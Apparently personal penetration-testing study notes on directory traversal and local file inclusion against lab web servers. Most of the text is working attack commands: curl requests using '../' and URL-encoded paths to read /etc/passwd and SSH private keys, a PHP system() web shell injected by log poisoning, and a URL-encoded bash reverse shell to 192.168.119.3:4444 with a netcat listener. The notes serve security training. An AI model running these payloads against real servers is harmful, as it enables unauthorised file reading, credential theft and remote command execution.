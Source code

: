 ## Directory Traversal

Use `../` to navigate 1 directory backward from your current directory. If you string them together and use `cat`, you can go to root and navigate from there:

```bash
cat ../../../../../../../../../../../etc/passwd
```

### Identifying and Exploiting Directory Traversals
On Linux, `/var/www/html/` is often used as the web root. 

To start identifying all the potential directory traversals, first find all the URLS on a webpage by hovering over all buttons and links.

To make this easier, run this in the browser console on the website. It will display the URL, anchor text and whether the URL refers to an external website:
```JavaScript
const results = [
    ['Url', 'Anchor Text', 'External']
];
var urls = document.getElementsByTagName('a');
for (urlIndex in urls) {
    const url = urls[urlIndex]
    const externalLink = url.host !== window.location.host
    if(url.href && url.href.indexOf('://')!==-1) results.push([url.href, url.text, externalLink]) // url.rel
}
const csvContent = results.map((line)=>{
    return line.map((cell)=>{
        if(typeof(cell)==='boolean') return cell ? 'TRUE': 'FALSE'
        if(!cell) return ''
        let value = cell.replace(/[\f\n\v]*\n\s*/g, "\n").replace(/[\t\f ]+/g, ' ');
        value = value.replace(/\t/g, ' ').trim();
        return `"${value}"`
    }).join('\t')
}).join("\n");
console.log(csvContent)
```

Example:

URL: `http://mountaindesserts.com/meteor/index.php?page=admin.php`

You can see this uses PHP and a parameter called "page". This is probably used to display different pages too, e.g. "page=login.php". 

PHP uses _$_GET_ to manage variables via a GET request

For the above example, the URL displays a parameter and a value. Try the value as a path, and maybe you see the same page! This indicates that the web application includes information from the "page" parameter and shows it under the "admin" link. I.e. the `page=` parameter takes input and displays it. Normally, this would be a webpage file, but you can use this to navigate the directories! E.g.:

`http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`

To display list of users.

Can potentially be used to display SSH private key and then connect using this key, e.g.:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

#### Windows
Instead of /etc/passwd, default is C:\Windows\System32\drivers\etc\hosts, since it is readable by all users.

More difficult, since no equivalent to /etc/passwd means no user list and no indication of where to check for SSH keys.

For IIS servers, always check:
- C:\inetpub\logs\LogFiles\W3SVC1\
- C:\inetpub\wwwroot\web.config
- Documentation of IIS to see whether there are any other potentially useful files.

For Windows IIS, it the "payload" **usuallly** does not change, e.g. from / to \.
```bash
curl --path-as-is 192.168.202.193:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../Users/install.txt -v
```
Worked to display file located in C:\Users\install.txt


### Encoding Special Characters

Because `../` is a known way to abuse web applications, it is often filtered. We can use URL encoding/percent encoding to bypass this. Specifically: ASCII encoding: https://www.w3schools.com/tags/ref_urlencode.asp


| Character | From Windows 1252 | From UTF-8 |
| ----------|-------------------|------------|
| `.`| %2E |	%2E |
| `/`	| %2F |	%2F |
| ` ` | %20 | %20 | 

E.g.:
```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
or
```bash
curl http://192.168.50.16/cgi-bin/%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2Fetc%2Fpasswd
```

This worked for encoded:
```bash
curl http://192.168.208.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/install.txt -v
```

## File Inclusion Vulnerabilities
LFI =/= directory traversal!

With LFI, you can include a file in the application's running code. Rather than reading (i.e. directory traversal), you can execute a local/remote file!

### Local File Inclusion (LFI)

LFI will work if we can write content and that content will be executed within the running code.

E.g.: Log poisoning - try to write executable code to log file (e.g. /var/log/apache2/access.log for Apache)

First: find out what is controlled by us (i.e., what can we send to the logs?)
- Read documentation
- Use directory traversal to display the file.
E.g.:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
If the User Agent is included, we can modify this to include some PHP code:
```PHP
<?php echo system($_GET['cmd']); ?>
```
Now, this was written to access.log. If we go to this file via the directory traversal, we can execute the PHP. In this case, we also need to add an extra parameter to the URL to enter a command into the PHP:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
We use `&` as a delimiter since we want to pass values to 2 different parameters. We do not want to include anything in the user agent, in case it poisons the log file again.

Sometimes we may want to include spaces in our command. We can encode them using `%20`, E.g.: 
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-al
```
Now, we can use this and encode this to (attempt to) obtain a reverse shell:

In Bash, it would look like this:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
BUT: the PHP _system_ function may execute using the Bourne shelll (sh). We can try to force it to use bash by using:
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
Encoded, it would become this:
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
You can also use this for custom commands: https://gchq.github.io/CyberChef/#recipe=URL_Encode(true).

Now the full request would be:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

Start a netcat listener on the right port:
```bash
nc -nvlp 4444
```
And you should get a shell!

#### Windows
For Windows, log files are located in application specific paths instead of all in 1 file. E.g. for XAMP the Apache logs are located in C:\xampp\apache\logs\.

We can use many other languages that just PHP.


